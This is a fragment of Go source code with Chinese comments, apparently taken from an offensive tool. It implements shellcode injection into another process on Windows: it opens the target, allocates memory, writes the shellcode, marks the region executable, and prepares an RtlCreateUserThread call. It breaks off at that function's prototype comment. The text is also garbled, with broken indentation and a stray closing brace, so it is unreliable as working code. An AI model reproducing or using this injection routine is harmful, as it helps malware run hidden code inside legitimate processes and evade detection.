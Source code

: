 	// 执行提供的 shellcode 在提供的目标进程中，使用 Windows RtlCreateUserThread 调用
func ExecuteShellcodeRtlCreateUserThread(shellcode []byte, pid uint32) error {
	// 加载 kernel32 和 ntdll 动态链接库
	kernel32 := windows.NewLazySystemDLL("kernel32")
	ntdll := windows.NewLazySystemDLL("ntdll.dll")

	// 获取所需函数的指针
	VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
	VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
	WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
	CloseHandle := kernel32.NewProc("CloseHandle")
	RtlCreateUserThread := ntdll.NewProc("RtlCreateUserThread")
	WaitForSingleObject := kernel32.NewProc("WaitForSingleObject")
// 使用系统调用打开进程，获取进程句柄
pHandle, errOpenProcess := syscall.OpenProcess(PROCESS_CREATE_THREAD|PROCESS_VM_OPERATION|PROCESS_VM_WRITE|PROCESS_QUERY_INFORMATION|PROCESS_VM_READ, false, pid)

// 如果打开进程出现错误，返回错误信息
if errOpenProcess != nil {
    return errors.New("Error calling OpenProcess:\r\n" + errOpenProcess.Error())
}

// 在进程中分配内存空间
addr, _, errVirtualAlloc := VirtualAllocEx.Call(uintptr(pHandle), 0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)

// 如果分配内存出现错误，返回错误信息
if errVirtualAlloc.Error() != "The operation completed successfully." {
    return errors.New("Error calling VirtualAlloc:\r\n" + errVirtualAlloc.Error())
}

// 如果分配的地址为0，表示分配失败，返回错误信息
if addr == 0 {
    return errors.New("VirtualAllocEx failed and returned 0")
}

// 将 shellcode 写入进程的内存空间
_, _, errWriteProcessMemory := WriteProcessMemory.Call(uintptr(pHandle), addr, uintptr(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

// 如果写入内存出现错误，返回错误信息
if errWriteProcessMemory.Error() != "The operation completed successfully." {
    return errors.New("Error calling WriteProcessMemory:\r\n" + errWriteProcessMemory.Error())
}
	}

	// 调用 VirtualProtectEx 函数修改内存区域的保护属性，使其可执行
	_, _, errVirtualProtectEx := VirtualProtectEx.Call(uintptr(pHandle), addr, uintptr(len(shellcode)), PAGE_EXECUTE)
	// 检查 VirtualProtectEx 函数调用是否成功，如果不成功则返回错误信息
	if errVirtualProtectEx.Error() != "The operation completed successfully." {
		return errors.New("Error calling VirtualProtectEx:\r\n" + errVirtualProtectEx.Error())
	}

	/*
		NTSTATUS
		RtlCreateUserThread(
			IN HANDLE Process,
			IN PSECURITY_DESCRIPTOR ThreadSecurityDescriptor OPTIONAL,
			IN BOOLEAN CreateSuspended,
			IN ULONG ZeroBits OPTIONAL,
			IN SIZE_T MaximumStackSize OPTIONAL,
			IN SIZE_T CommittedStackSize OPTIONAL,
			IN PUSER_THREAD_START_ROUTINE StartAddress,
			IN PVOID Parameter OPTIONAL,
			OUT PHANDLE Thread OPTIONAL,
			OUT PCLIENT_ID ClientId OPTIONAL
	*/